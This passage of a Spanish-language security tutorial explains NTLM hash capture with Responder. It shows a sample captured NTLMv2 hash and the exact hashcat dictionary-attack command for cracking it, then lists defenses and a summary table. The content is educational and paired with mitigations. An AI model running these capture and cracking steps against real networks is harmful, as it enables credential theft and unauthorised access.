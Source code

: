 Por ejemplo, si un usuario intenta acceder a:

```
\\10.10.10.100\compartido
```

Responder responderá y capturará el hash:

```
[+] NTLMv2-SSP Hash     : gustavo::HACK.LOCAL:1122334455667788...
```

---

#### 🔓 Paso 3: Crackear el hash con Hashcat

Guarda el hash en un archivo, por ejemplo `hashes.txt`, y usa:

```bash
hashcat -m 5600 -a 0 hashes.txt rockyou.txt
```

- `-m 5600`: modo NTLMv2
- `-a 0`: ataque por diccionario
- `rockyou.txt`: archivo de contraseñas comunes

✔️ Si la contraseña es débil, la recuperarás en segundos.

---

### 🛡️ Cómo defenderse del NTLM Roasting

1. **Deshabilita LLMNR y NetBIOS en todas las máquinas.**
2. **Forzar el uso de Kerberos y deshabilitar NTLM** donde sea posible.
3. Usa **contraseñas largas y únicas** (evita contraseñas del tipo `P@ssw0rd123`).
4. Usa **protecciones como Windows Defender Credential Guard**.
5. Segmentar la red y evitar que usuarios normales tengan visibilidad entre máquinas.

---

### ✅ Resumen

| Concepto             | Explicación rápida                                         |
| -------------------- | ---------------------------------------------------------- |
| Protocolo explotado  | NTLM (autenticación heredada de Windows)                   |
| Hash capturado       | NTLMv2 (desde SMB, HTTP, etc.)                             |
| Herramientas comunes | Responder, Inveigh, Impacket                               |
| Método de ataque     | Capturar hash → crackear con Hashcat o John                |
| Defensa recomendada  | Desactivar NTLM, LLMNR, NetBIOS y usar contraseñas fuertes |

---

[🔼](#índice)

---